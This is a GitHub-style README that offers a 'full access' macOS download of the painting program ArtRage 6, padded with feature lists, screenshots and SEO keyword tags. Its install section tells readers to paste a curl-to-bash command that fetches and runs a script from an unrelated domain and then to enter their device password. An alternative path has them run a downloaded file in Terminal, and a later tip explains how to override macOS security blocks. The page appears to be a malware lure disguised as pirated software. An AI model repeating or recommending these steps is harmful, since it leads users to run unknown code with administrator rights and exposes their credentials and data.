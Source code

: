 <p align="center">
  <img src="https://i.ibb.co/Z1kKFMmF/1626031167-artrage-icon-result-min.png" alt="ArtRage 6 macOS Banner" />
</p>

<h1 align="center">ArtRage 6 for macOS</h1>

<p align="center">
  🎨 Realistic painting software with oils, watercolors, pencils, and natural canvas texture — built for digital artists who love analog feel.  
  <br><br>
  ✅ Native M1/M2/M3 support  
  ✅ Works on Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/226" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20ARTRAGE%206%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download ArtRage 6 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/7dNL663b/1627309215-1.jpg" alt="ArtRage 6 UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is ArtRage 6 for macOS?

**ArtRage 6** is a full-featured digital painting environment designed to replicate traditional art tools on your Mac. With true-to-life oil paints, watercolors, pencils, canvas textures, and layer blending, it provides a natural feel that mimics real-world media.

Whether you're sketching, painting, or blending colors on a textured surface — ArtRage makes the process intuitive, expressive, and enjoyable for any artist.

---

## ✅ Why Choose ArtRage 6?

- 🖌️ **Realistic Oil, Watercolor, Ink, and Pencil Tools**  
- 🧵 **Custom Canvas Texture & Paper Grain Control**  
- 🖼️ **Layer Support with Blend Modes**  
- 🪄 **Reference & Tracing Image Support**  
- 🎨 **Color Pickers, Palettes, and Mixing Tools**  
- 🍎 **Native Apple Silicon Support (M1/M2/M3)**  
- 💾 **Autosave, Unlimited Undo, and Pressure Sensitivity**  
- 🧠 **Ideal for Fine Art, Illustration, Concept Art**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/nNhkp21B/1627309216-3.jpg" alt="Brush Stroke Example in ArtRage" />
  <br><br>
  <img src="https://i.ibb.co/nqwHbVD1/1627309215-2.jpg" alt="Layer and Blending UI in ArtRage" />
</p>

---

## 🚀 Key Features

- True-to-life traditional media simulation  
- Full brush customization & texture support  
- Layers with blending, opacity & masks  
- Stylus pressure & tilt sensitivity  
- Tracing and image reference tools  
- Canvas size control and print resolution export  
- Export to PSD, JPG, PNG, TIFF  
- Clean, minimal macOS-native interface

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow ArtRage 6 manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Digital+Painting+App-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Brushes-Oil+Watercolor+Pencil-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ ArtRage 6 – Paint Like It’s Real

Thanks for using **ArtRage 6 for macOS**.  
Bring traditional artistry into your digital workflow.

---

## 🧭 Usage Context

ArtRage 6 is built for local creative work.  
All canvas data, brushes, and sessions stay entirely offline.  
No telemetry, no background sync, just pure art.

---

## 🔍 Tags

```text
artrage 6 for mac download, artrage full version macos m1, digital painting app mac apple silicon, artrage oil watercolor sketch tool mac, realistic brush engine artrage macbook, artrage 6 canvas texture editor mac, artrage native m2 m3 support macos, artrage drawing software for illustrators mac, artrage art tool layers masks blending, artrage export to psd mac download, artrage offline art studio mac full, best traditional painting simulation mac, artrage digital sketchbook native mac, artrage stylus pressure support mac, artrage 6 macbook pro retina ready
